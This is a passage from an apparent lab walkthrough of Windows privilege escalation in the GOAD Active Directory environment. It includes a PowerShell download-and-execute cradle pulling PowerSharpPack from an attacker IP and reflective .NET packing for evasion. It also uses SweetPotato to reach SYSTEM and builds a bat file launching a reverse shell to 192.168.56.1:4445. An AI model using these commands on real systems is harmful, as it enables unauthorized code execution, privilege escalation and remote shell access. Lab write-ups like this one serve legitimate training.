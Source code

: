 - If you don't want to be bored to compile .net app or modify them with public class and method and no exit.environment you can also use [PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack) and get everything done for you (thanks again to @ShitSecure).

```powershell
iex(new-object net.webclient).downloadstring('http://192.168.56.1:8080/PowerSharpPack/PowerSharpPack.ps1')
PowerSharpPack -winPEAS
```

- And we get the information of SEImpersonate Privilege to use for escalation
![privesc_winPEAS.png](/assets/blog/GOAD/privesc_winPEAS.png)

### Packing your .net binary for powershell

- If you don't want to use binary from internet (and you should don't use pre-compiled code grabbed on github on your pentest mission), you can also pack you own binary with the following script : [EncodeAssembly.ps1](https://gist.github.com/Mayfly277/2e5f34a7e7f70798d1f19c0c35f9fa0e)
- This script is a modification of the one from @snovvcrash [website](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/av-edr-evasion/dotnet-reflective-assembly) and some code of PowerSharpPack.

- Pack with the following commands :

```powershell
. .\EncodeAssembly.ps1
Invoke-EncodeAssembly -binaryPath winPEAS.exe -namespace winPEAS -capture $true
```

- To be use as reflective assembly in powershell remember you should avoid environment.exit() in the .net code and also you must set the class and the main method public.

### SeImpersonatePrivilege to Authority\system

- To escalate privilege from our iis (or mssql) user with SeImpersonatePrivilege to Authority\system we can use one of the "potatoes" technic.

- A wonderfull blog post explain the different potatoes here : [https://jlajara.gitlab.io/Potatoes_Windows_Privesc](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)

- So let's use [SweetPotato](https://github.com/CCob/SweetPotato), a compilation of all the technics, _"the potatoe to rule them all"_.
- Ok so we clone the project and compile it with visualStudio

- Prepare a bat file to run ou powershell basic reverse shell on execution

```shell
cd www
echo "@echo off" > runme.bat
echo "start /b $(python3 payload.py 192.168.56.1 4445)" >> runme.bat
echo "exit /b" >> runme.bat
python3 -m http.server 8080
```
